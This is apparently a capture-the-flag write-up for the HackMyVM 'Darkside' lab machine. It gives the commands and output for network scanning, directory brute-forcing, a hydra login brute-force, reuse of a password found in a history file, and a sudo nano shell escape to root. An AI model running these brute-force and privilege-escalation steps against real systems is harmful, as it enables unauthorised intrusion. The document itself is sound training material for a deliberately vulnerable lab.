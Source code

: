 | Name     | Difficulty | OS    | Target IP     | Link                                                 |
| -------- | ---------- | ----- | ------------- | ---------------------------------------------------- |
| Darkside | Easy       | Linux | 192.168.0.202 | https://hackmyvm.eu/machines/machine.php?vm=Darkside |


### ARP Scan

```bash
gareth@gareth:~/hackmyvm/darkside$ sudo arp-scan -l | grep 8e           
192.168.0.181	08:00:27:8f:5b:8e	PCS Systemtechnik GmbH
```

### Nmap Scan Results

```bash
gareth@gareth:~/hackmyvm/darkside$ sudo nmap -p- -sV -sC 192.168.0.181 -oA nmap/darkside.tcp
Starting Nmap 7.80 ( https://nmap.org ) at 2024-10-30 16:34 GMT
Nmap scan report for 192.168.0.181
Host is up (0.000088s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.56 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: The DarkSide
MAC Address: 08:00:27:8F:5B:8E (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.41 seconds
```


![[Pasted image 20241030163545.png]]

Directory bruteforce, we see a file called `vote.txt`:

```bash
gareth@gareth:~/hackmyvm/darkside$ feroxbuster -u http://192.168.0.181 -w /opt/SecLists/Discovery/Web-Content/big.txt 

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.0.181
 🚀  Threads               │ 50
 📖  Wordlist              │ /opt/SecLists/Discovery/Web-Content/big.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.0
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       31w      275c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       28w      278c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        9l       28w      315c http://192.168.0.181/backup => http://192.168.0.181/backup/
200      GET       10l       36w      205c http://192.168.0.181/backup/vote.txt
200      GET       74l      300w     2121c http://192.168.0.181/styles.css
200      GET       29l       45w      683c http://192.168.0.181/
[####################] - 10s    20480/20480   0s      found:4       errors:23     
[####################] - 9s     20477/20477   2217/s  http://192.168.0.181/ 
[####################] - 0s     20477/20477   6825667/s http://192.168.0.181/backup/ => Directory listing                                                                                                                                     gareth@gareth:~/hackmyvm/darkside$ curl http://192.168.0.181/backup/vote.txt
rijaba: Yes
xerosec: Yes
sml: No
cromiphi: No
gatogamer: No
chema: Yes
talleyrand: No
d3b0o: Yes

Since the result was a draw, we will let you enter the darkside, or at least temporarily, good luck kevin.
```


```bash
gareth@gareth:~/hackmyvm/darkside$ hydra -l kevin -P /opt/rockyou.txt 192.168.0.181 http-post-form "/index.php:user=^USER^&pass=^PASS^:Username or password invalid" -VV -F -I
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-30 17:04:00
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-post-form://192.168.0.181:80/index.php:user=^USER^&pass=^PASS^:Username or password invalid
[ATTEMPT] target 192.168.0.181 - login "kevin" - pass "123456" - 1 of 14344398 [child 0] (0/0)
[ATTEMPT] target 192.168.0.181 - login "kevin" - pass "12345" - 2 of 14344398 [child 1] (0/0)
[ATTEMPT] target 192.168.0.181 - login "kevin" - pass "123456789" - 3 of 14344398 [child 2] (0/0)
[ATTEMPT] target 192.168.0.181 - login "kevin" - pass "password" - 4 of 14344398 [child 3] (0/0)
[ATTEMPT] target 192.168.0.181 - login "kevin" - pass "iloveyou" - 5 of 14344398 [child 4] (0/0)
[ATTEMPT] target 192.168.0.181 - login "kevin" - pass "princess" - 6 of 14344398 [child 5] (0/0)
[ATTEMPT] target 192.168.0.181 - login "kevin" - pass "1234567" - 7 of 14344398 [child 6] (0/0)
[ATTEMPT] target 192.168.0.181 - login "kevin" - pass "rockyou" - 8 of 14344398 [child 7] (0/0)
[ATTEMPT] target 192.168.0.181 - login "kevin" - pass "12345678" - 9 of 14344398 [child 8] (0/0)
[ATTEMPT] target 192.168.0.181 - login "kevin" - pass "abc123" - 10 of 14344398 [child 9] (0/0)
[ATTEMPT] target 192.168.0.181 - login "kevin" - pass "nicole" - 11 of 14344398 [child 10] (0/0)
[ATTEMPT] target 192.168.0.181 - login "kevin" - pass "daniel" - 12 of 14344398 [child 11] (0/0)
[ATTEMPT] target 192.168.0.181 - login "kevin" - pass "babygirl" - 13 of 14344398 [child 12] (0/0)
[ATTEMPT] target 192.168.0.181 - login "kevin" - pass "monkey" - 14 of 14344398 [child 13] (0/0)
[ATTEMPT] target 192.168.0.181 - login "kevin" - pass "lovely" - 15 of 14344398 [child 14] (0/0)
[ATTEMPT] target 192.168.0.181 - login "kevin" - pass "jessica" - 16 of 14344398 [child 15] (0/0)
[ATTEMPT] target 192.168.0.181 - login "kevin" - pass "654321" - 17 of 14344398 [child 0] (0/0)
[ATTEMPT] target 192.168.0.181 - login "kevin" - pass "michael" - 18 of 14344398 [child 2] (0/0)
[ATTEMPT] target 192.168.0.181 - login "kevin" - pass "ashley" - 19 of 14344398 [child 5] (0/0)
[ATTEMPT] target 192.168.0.181 - login "kevin" - pass "qwerty" - 20 of 14344398 [child 1] (0/0)
[ATTEMPT] target 192.168.0.181 - login "kevin" - pass "111111" - 21 of 14344398 [child 3] (0/0)
[ATTEMPT] target 192.168.0.181 - login "kevin" - pass "iloveu" - 22 of 14344398 [child 6] (0/0)
[ATTEMPT] target 192.168.0.181 - login "kevin" - pass "000000" - 23 of 14344398 [child 7] (0/0)
[ATTEMPT] target 192.168.0.181 - login "kevin" - pass "michelle" - 24 of 14344398 [child 8] (0/0)
[ATTEMPT] target 192.168.0.181 - login "kevin" - pass "tigger" - 25 of 14344398 [child 9] (0/0)
[ATTEMPT] target 192.168.0.181 - login "kevin" - pass "sunshine" - 26 of 14344398 [child 10] (0/0)
[ATTEMPT] target 192.168.0.181 - login "kevin" - pass "chocolate" - 27 of 14344398 [child 11] (0/0)
[ATTEMPT] target 192.168.0.181 - login "kevin" - pass "password1" - 28 of 14344398 [child 12] (0/0)
[ATTEMPT] target 192.168.0.181 - login "kevin" - pass "soccer" - 29 of 14344398 [child 13] (0/0)
[ATTEMPT] target 192.168.0.181 - login "kevin" - pass "anthony" - 30 of 14344398 [child 14] (0/0)
[ATTEMPT] target 192.168.0.181 - login "kevin" - pass "friends" - 31 of 14344398 [child 15] (0/0)
[ATTEMPT] target 192.168.0.181 - login "kevin" - pass "butterfly" - 32 of 14344398 [child 2] (0/0)
[ATTEMPT] target 192.168.0.181 - login "kevin" - pass "purple" - 33 of 14344398 [child 0] (0/0)
[80][http-post-form] host: 192.168.0.181   login: kevin   password: iloveyou
[STATUS] attack finished for 192.168.0.181 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-10-30 17:04:01
```

```bash
kevin:iloveyou
```


Logging in:

![[Pasted image 20241030170623.png]]

```bash
gareth@gareth:~/hackmyvm/darkside$ echo 'kgr6F1pR4VLAZoFnvRSX1t4GAEqbbph6yYs3ZJw1tXjxZyWCC' | base58 -d
c2ZxZWttZ25jdXRqaGJ5cHZ4ZGEub25pb24=
gareth@gareth:~/hackmyvm/darkside$ echo 'c2ZxZWttZ25jdXRqaGJ5cHZ4ZGEub25pb24=' | base64 -d
sfqekmgncutjhbypvxda.onion
```

![[Pasted image 20241030171011.png]]
![[Pasted image 20241030171407.png]]

![[Pasted image 20241030171322.png]]

```bash
gareth@gareth:~/hackmyvm/darkside$ ssh kevin@192.168.0.181
kevin@192.168.0.181's password: 
Linux darkside 5.10.0-26-amd64 #1 SMP Debian 5.10.197-1 (2023-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Oct 15 15:18:15 2023 from 10.0.2.18
kevin@darkside:~$ ls -lash
total 32K
4.0K drwxr-xr-x 3 kevin kevin 4.0K Oct 30  2023 .
4.0K drwxr-xr-x 4 root  root  4.0K Oct 15  2023 ..
   0 lrwxrwxrwx 1 kevin kevin    9 Oct 30  2023 .bash_history -> /dev/null
4.0K -rw-r--r-- 1 kevin kevin  220 Oct 15  2023 .bash_logout
4.0K -rw-r--r-- 1 kevin kevin 3.5K Oct 15  2023 .bashrc
4.0K -rw-r--r-- 1 kevin kevin  113 Oct 15  2023 .history
4.0K drwxr-xr-x 3 kevin kevin 4.0K Oct 15  2023 .local
4.0K -rw-r--r-- 1 kevin kevin  807 Oct 15  2023 .profile
4.0K -rw-r--r-- 1 kevin kevin   19 Oct 15  2023 user.txt
kevin@darkside:~$ cat user.txt 
UnbelievableHumble
```

```bash
kevin@darkside:~$ cat .history 
ls -al
hostname -I
echo "Congratulations on the OSCP Xerosec"
top
ps -faux
su rijaba
ILoveJabita
ls /home/rijaba

```

```bash
kevin@darkside:~$ su rijaba
Password: 
rijaba@darkside:/home/kevin$ whoami && id
rijaba
uid=1001(rijaba) gid=1001(rijaba) groups=1001(rijaba)
```


```bash
rijaba@darkside:/home/kevin$ sudo -l
Matching Defaults entries for rijaba on darkside:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User rijaba may run the following commands on darkside:
    (root) NOPASSWD: /usr/bin/nano
```

GTFO bins: https://gtfobins.github.io/gtfobins/nano/#sudo

```bash
rijaba@darkside:/home/kevin$ sudo nano
^R^X
reset; sh 1>&0 2>&0
```

```

```bash
                                                                                                               [ Executing... ]# 
#  Help                                        M-F New Buffer                                 ^S Spell Check                                 ^J Full Justify                                ^V Cut Till End
#  Cancel                                      M-\ Pipe Text                                  ^Y Linter                                      ^O Formatter                                   ^Z Suspend
# whoami && id
root
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
  ██████╗░░█████╗░██████╗░██╗░░██╗░██████╗██╗██████╗░███████╗
  ██╔══██╗██╔══██╗██╔══██╗██║░██╔╝██╔════╝██║██╔══██╗██╔════╝
  ██║░░██║███████║██████╔╝█████═╝░╚█████╗░██║██║░░██║█████╗░░
  ██║░░██║██╔══██║██╔══██╗██╔═██╗░░╚═══██╗██║██║░░██║██╔══╝░░
  ██████╔╝██║░░██║██║░░██║██║░╚██╗██████╔╝██║██████╔╝███████╗
  ╚═════╝░╚═╝░░╚═╝╚═╝░░╚═╝╚═╝░░╚═╝╚═════╝░╚═╝╚═════╝░╚══════╝


youcametothedarkside
#
```

